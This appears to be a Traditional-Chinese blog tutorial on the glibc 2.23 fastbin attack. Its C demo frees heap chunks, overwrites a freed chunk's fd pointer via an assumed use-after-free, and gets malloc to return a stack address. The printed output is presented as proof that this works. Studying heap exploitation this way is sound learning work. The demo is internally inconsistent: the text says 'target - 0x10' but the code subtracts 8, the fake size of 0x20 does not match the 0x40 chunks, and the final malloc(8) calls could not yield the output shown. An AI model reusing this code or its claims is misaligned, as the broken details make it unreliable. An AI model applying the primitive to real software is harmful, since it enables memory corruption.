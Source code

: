 ```yaml
---
title: "Fastbin Attack"
date: 2025-04-09
series: ["Heap Exploitation"]
series_order: 9
---
```


|||
|-|-|
|版本|latest|
|效果|可以構造一個allocated chunk在任意writable address上|

## glibc 2.23

### malloc

先malloc出fastbin  
然後現在創了一個`stackVar`，用於存`fake size`和`target`

```c
unsigned long *ptr0, *ptr1, *ptr2;

ptr0 = malloc(0x30);
ptr1 = malloc(0x30);
ptr2 = malloc(0x30);

printf("Chunk 0: %p\n", ptr0);
printf("Chunk 1: %p\n", ptr1);
printf("Chunk 2: %p\n\n", ptr2);

unsigned long long stackVar[2];
stackVar[0] = 0x20; // fake size
stackVar[1] = 0x55; // target

char *data0 = "00000000";
char *data1 = "11111111";
char *data2 = "22222222";

memcpy(ptr0, data0, 0x8);
memcpy(ptr1, data1, 0x8);
memcpy(ptr2, data2, 0x8);

```

### free

```c
free(ptr0); //fastbin->Chunk0
free(ptr1); //fastbin->Chunk1->Chunk0
free(ptr2); //fastbin->Chunk2->Chunk1->Chunk0

printf("Chunk0 @ %p\t contains: %lx\n", ptr0, *ptr0);
printf("Chunk1 @ %p\t contains: %lx\n", ptr1, *ptr1);
printf("Chunk2 @ %p\t contains: %lx\n\n", ptr2, *ptr2);
```

output

```txt
Chunk0 @ 0x2e80010       contains: 0
Chunk1 @ 0x2e80030       contains: 2e80000
Chunk2 @ 0x2e80050       contains: 2e80020
```

fastbin會造著下圖方式串接(*我為了方便起見只用兩個chunk做示範)

![alt text](image.png)

### 竄改chunk fd

假設我們現在可以uaf一個chunk，freed chuck指標的位置會剛好存放fd  
可以直接把他修改到`target - 0x10`

```c
*ptr1 = (unsigned long)((char *)&stackVar - 8); //overwirte the FP: fastbin->Chunk2->Chunk1->stackVar
```

![alt text](image-1.png)

### malloc

最後malloc相同size的chunk  
結果應該會成功把chunk allocate到target上

```c
unsigned long *ptr3, *ptr4, *ptr5;

ptr3 = malloc(8); //fastbin->Chunk1->stackVar
ptr4 = malloc(8); //fastbin->stackVar
ptr5 = malloc(8); //fastbin->NULL

printf("Chunk 3: %p\n", ptr3);
printf("Chunk 4: %p\n", ptr4);
printf("Chunk 5: %p\t Contains: 0x%x\n", ptr5, (int)*ptr5);
```

![alt text](image-2.png)
![alt text](image-3.png)
output

```txt
Chunk 3: 0x2e80050
Chunk 4: 0x2e80030
Chunk 5: 0x7fff8910f668  Contains: 0x55
```

### glibc 2.27 以上

先填滿tcache在進行剛剛操作